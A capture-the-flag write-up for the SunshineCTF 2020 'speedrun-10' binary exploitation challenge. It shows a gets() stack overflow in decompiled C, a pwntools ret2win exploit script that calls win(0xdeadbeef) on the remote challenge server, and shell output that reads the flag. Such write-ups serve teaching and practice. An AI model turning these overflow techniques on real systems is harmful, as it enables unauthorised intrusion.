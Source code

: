 # **speedrun-10**
## Task
nc chal.2020.sunshinectf.org 30010
File: chall_10
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
* No Canary assume BOF
* No PIE assume ROP
* System 32 bit
### Decompile with ghidra
```c
void vuln(void)

{
  char local_3e [54];
  
  __x86.get_pc_thunk.ax();
  gets(local_3e);
  return;
}

void win(int param_1)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  if (param_1 == -0x21524111) {
    system((char *)(iVar1 + 0x12e));
  }
  return;
}
```
This challanges just like [speedrun--02](), but the difference is that we need to setup a stack frame as if we call `win`. 

For `x86(32 bit)` passing the parameter through stack. However, the next parameter on the stack needs to be the return address of the function `win` will return to. But our destination is leaking the flag so just set the return address anything -> `p32(0)` .The last value (the next on the stack) we write out the parameter with `0xdeadbeef = -0x21524111` -> `win(0xdeadbeef)`

### Exploit
```python
from pwn import *

binary = context.binary = ELF('./chall_10')
payload = b'a'*0x3e
payload += p32(binary.sym.win)
payload += p32(0)
payload += p32(0xdeadbeef)
p = remote('chal.2020.sunshinectf.org',30010)
p.sendlineafter('Don\'t waste your time, or...\n','foobar')
p.sendline(payload)
p.interactive()
```

### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_10'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30010: Done
[*] Switching to interactive mode
$ ls
chall_10
flag.txt
$ cat flag.txt
sun{second-heartbeat-aeaff82332769d0f}
```
